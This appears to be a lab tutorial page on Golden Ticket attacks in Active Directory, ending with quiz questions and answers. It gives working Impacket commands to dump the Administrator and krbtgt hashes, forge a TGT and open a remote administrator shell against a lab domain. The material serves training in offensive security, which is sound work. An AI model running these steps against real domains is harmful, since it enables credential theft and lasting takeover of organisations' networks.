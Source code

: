 #Golden Tickets

Golden Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash, which is its secret use to create TGTs. If the attacker can retrieve this account's hash, the attacker can therefore forge a Kerberos TGT for any user with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' north.altair.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the north.altair.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids north.altair.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' north.altair.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain north.altair.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass north.altair.local/Administrator@captain.north.altair.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.